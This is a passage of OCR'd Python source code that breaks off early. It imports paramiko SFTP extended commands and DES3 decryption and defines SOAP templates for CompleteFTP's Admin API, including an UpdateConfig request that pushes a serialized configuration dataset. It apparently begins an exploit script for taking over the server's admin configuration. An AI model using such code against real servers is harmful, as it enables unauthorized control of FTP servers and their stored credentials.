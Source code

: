     from paramiko.sftp import CMD_EXTENDED
    from base64 import b64encode, b64decode
    from Crypto.Util.Padding import unpad
    from Crypto.Cipher import DES3
    import xml.etree.ElementTree as ET
    import paramiko
    import struct
    import uuid
    import sys

    # region get_server_info
    get_server_info = """
    <SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <SOAP-ENV:Body>
    <i2:GetServerInfo id="ref-1" xmlns:i2="Admin API">
    </i2:GetServerInfo>
    </SOAP-ENV:Body>
    </SOAP-ENV:Envelope>
    """.strip()
    # endregion

    # region update_config
    update_config = """
    <SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <SOAP-ENV:Body>
    <i2:UpdateConfig id="ref-1" xmlns:i2="Admin API">
    <changes href="#ref-4"/>
    </i2:UpdateConfig>
    <a1:ConfigDataSet id="ref-4" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/EnterpriseDT.Net.FtpServer.Config/CompleteFTPManager%2C%20Version%3D8.3.3.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D48e55b33069804ce">
    <DataSet.RemotingVersion href="#ref-5"/>
    <XmlSchema id="ref-6">{XMLSCHEMA}</XmlSchema>
    <XmlDiffGram id="ref-7">{XMLDIFFGRAM}</XmlDiffGram>
    </a1:ConfigDataSet>
    <a2:Version id="ref-5" xmlns:a2="http://schemas.microsoft.com/clr/ns/System">
    <_Major>2</_Major>
    <_Minor>0</_Minor>
    <_Build>-1</_Build>
    <_Revision>-1</_Revision>
    </a2:Version>
    </SOAP-ENV:Body>
    </SOAP-ENV:Envelope>
    """.strip()
    # endregion
